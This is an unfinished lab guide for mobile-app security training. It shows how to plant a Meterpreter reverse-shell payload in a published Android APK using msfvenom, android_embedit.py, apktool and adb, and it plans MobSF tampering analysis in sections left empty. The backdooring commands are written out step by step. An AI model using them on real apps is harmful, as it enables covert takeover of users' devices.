# APK Makeover (Android Edition)

This lab will walk you through the steps of adding malicious code to a published app and comparing the backdoored app with the original app. There will be some challenges presented along the way. This is by design, so that you can start to develop some techniques for troubleshooting when things just aren't working during a mobile app test.

Objectives:

- Add a backdoor to a published APK
- Acquire troubleshooting techniques for mobile testing
- Analyze and compare the original APKs for signs of tampering or malicious functionality

Tools Used in This Lab:

- android_embedit.py
- apktool
- adb
- MobSF

## Generate a Meterpreter Payload for Android

TODO: Run `msfvenom -h` in VM to initialize msf. Otherwise, the next step will hang.

`msfvenom -l payloads | grep android`


`msfvenom LHOST=127.0.0.1 LPORT=443 -p android/meterpreter/reverse_tcp R > msf.apk`



## Introduction to android_embedit.py

https://github.com/yoda66/AndroidEmbedIT


TODO: Ensure that HackerBank app APK file is in VM

TODO: Add android_embedit.py to VM

`python3 android_embedit.py -h`


`python3 android_embedit.py app-release.apk msf.apk`


## Smoke Check: Decompile then Build

Why? Make sure this works before modifying the app.

TODO: Ensure apktool version 2.7.0 is in VM. The apktool package is 2.5.0 and does not work with HackerBank.

TODO: Create a shell script to launch apktool and copy it to /usr/local/bin

TODO: Fix commands and screenshots below.

`java -jar Downloads/apktool_2.7.0.jar -h`



Decompiling app-release.apk

`java -jar Downloads/apktool_2.7.0.jar d app-release.apk`



Building without making any changes to the app

`java -jar Downloads/apktool_2.7.0.jar b app-release/`



Decompile but do not decode resources

`java -jar Downloads/apktool_2.7.0.jar d -f -r app-release.apk`



Builtd it again

`java -jar Downloads/apktool_2.7.0.jar b app-release/`


It Works!

## Round 2 with android_embedit.py

Let's tweak android_embedit.py to include the `-r` flag when decompiling the original APK and see if that works. Add the `-r` flag in line 116 so that it looks like the following:



After adding the `-r` flag, re-run `android_embedit.py`.

`android_embedity.py app-release.apk msf.apk`



It looks like there's still a problem but the error message is different. The first time that we ran android_embedit.py, we saw an error message indicating that AndroidManifest.xml was not found. Since that error message was no longer present, we can assume that the manifest file is there. It also looks like the script had just completed decompiling msf.apk which means that it was about to patch the AndroidManifest.xml file. Let's take a look at the AndroidManifest.xml file for clues as to what happened.

`head ~/.ae/original_apk/AndroidManifest.xml`



It looks like the AndroidManifest.xml file is still in the binary format. This makes sense, since we passed the `-r` flag to apktool. However, android_embedit.py needs the AndroidManifest.xml file in a plaintext XML format in order to patch it. Go ahead and remove the `-r` flag from line 116 of android_embedit.py since that will not work.

Where to go from here? We know that apktool can decompile our APK with the default settings, but it will fail when we try to rebuild it. Since we already tried changing the decompilation settings, let's take a look at apktool's advanced features to see if there's anything we could change during the build step.

`apktool -advanced`



Under the `build` section, it appears that there's an option to utilize `aapt2`. Android Asset Packaging Tool (aapt) is what apktool runs "under the hood" when it builds an APK. Interestingly, while apktool refers to aapt2 as "experimental," it has been the default version since Android Studio 3.0 which was released on October 25, 2017. Let's see what happens when we use the default options to decompile and the `--use-aapt2` flag to rebuild the APK.

`apktool -f d app-release.apk`

`apktool b --use-aapt2 app-release/`


That looks like it worked so let's see what happens if we modify android_embedit.py to use the `--use-aapt2` flag during the build step. Add the `--use-aapt2` flag at line 128 so that it looks like the following:


After modifying android_embedit.py, run it to see if everything works.

`python3 android_embedit.py app-release.apk msf.apk`



Hooray! No errors. Before we get our hopes up though, let's make sure we can install the app with adb. Remember to verify that the connection is up to your Android device.

`adb devices`

`adb install ~/.ae/final.apk`


Well shoot. It looks like the app didn't install. If you search online for the error message, you'll come across a github issue in apktool's repo where this was a known problem. Some commenters experiences success by using zipalign after compilation. This author did not have luck in doing so. A more recent comment on the github issue hinted at using `apksigner` instead of `jarsigner`. Switching to `apksigner` was found to be effective. As a quick fix, we're going to change the sign method in android_embedit.py. Between line 161 and line 162, paste in the following code.

```

```

After doing so, your copy of 

TODO: Ensure that apksigner is installed in the VM


## Checkpoint #3: Decompile, Build, Sign, then Install

From reviewing the `sign` method in android_embedit.py, we can see at line 158 that `jarsigner` is used to sign the backdoored APK.



If we wanted to run the same command from bash, it would look something like this:

`jarsigner -verbose -keystore $KEYSTORE -storepass $KEYSTORE_PASSWORD -digestalg SHA1 -sigalg SHA1withRSA $FINAL_APK $KEY_NAME`

TODO: Include a keystore file for this step

On your VM, there's a keystore named, "signcheck.keystore". The keystore password is "signcheck" and the key name is "key". Let's see what happens when we try to sign the APK using the key in this keystore.

## Tweak android_embedit.py and Re-run It


## Other Issues You May Encounter


## Analyze Backdoored APK with MobSF


## Compare the MobSF Analyses


## References:

- https://github.com/yoda66/AndroidEmbedIT
- https://medium.com/@lucideus/the-black-hat-art-of-backdooring-android-apk-part-1-lucideus-research-7215f79e7d51
- https://forum.xda-developers.com/t/apktool-jar-common-errors-and-solutions.4185443/
- https://connortumbleson.com/2018/02/19/taking-a-look-at-aapt2/
- https://developer.android.com/studio/command-line/aapt2
- https://github.com/iBotPeaches/Apktool/issues/2421
- https://platinmods.com/threads/how-to-turn-a-split-apk-into-a-normal-non-split-apk.76683/
- https://54m4ri74n.medium.com/hacking-android-mobile-using-meterpreter-257707d0e076